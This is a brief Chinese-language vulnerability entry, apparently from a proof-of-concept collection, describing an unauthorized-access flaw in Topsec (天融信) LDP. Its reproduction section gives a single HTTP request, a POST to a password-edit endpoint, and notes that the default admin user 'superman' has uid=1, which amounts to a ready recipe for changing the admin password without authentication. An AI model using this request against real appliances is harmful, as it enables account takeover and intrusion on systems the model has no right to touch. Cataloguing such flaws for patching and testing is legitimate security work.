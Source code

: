 # 天融信LDP未授权访问漏洞

## 漏洞描述

天融信LDP存在未授权访问漏洞

## 漏洞影响

> [!NOTE]
>
> 天融信LDP

## 漏洞复现

POC为

```
默认用户superman的uid=1
POST /?module-auth_user&action=mod_edit.pwd HTTP/1.1
```
